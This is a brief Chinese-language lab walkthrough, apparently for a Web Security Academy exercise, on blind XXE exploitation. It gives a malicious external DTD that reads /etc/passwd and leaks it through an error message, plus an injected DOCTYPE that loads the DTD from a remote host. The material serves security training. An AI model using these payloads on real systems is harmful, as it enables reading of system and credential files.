 ## 1. 攻击服务器部署恶意dtd文件

poc内容：

```javascript
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

- 定义名为的XML参数实体file，其中包含/etc/passwd文件的内容。

- 定义一个名为的XML参数实体eval，其中包含另一个名为的XML参数实体的动态声明error。该error实体将通过加载一个不存在的文件名称中包含的价值进行评估file实体。

- 使用eval实体，这将导致error执行实体的动态声明。

- 使用error实体，以便通过尝试加载不存在的文件来评估其值，从而产生一条错误消息，其中包含不存在的文件的名称，即文件的内容/etc/passwd。



## 2. xxe，访问部署的dtd文件

poc:

```javascript
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://ac751ffa1eab9ea0802029da01870006.web-security-academy.net/exploit.dtd"> %xxe; ]>
<stockCheck><productId>%xxe</productId><storeId>1</storeId></stockCheck>
```



![](images/E38B32AC9B2B48A0B0FD3B35DA4EB5FEclipboard.png)

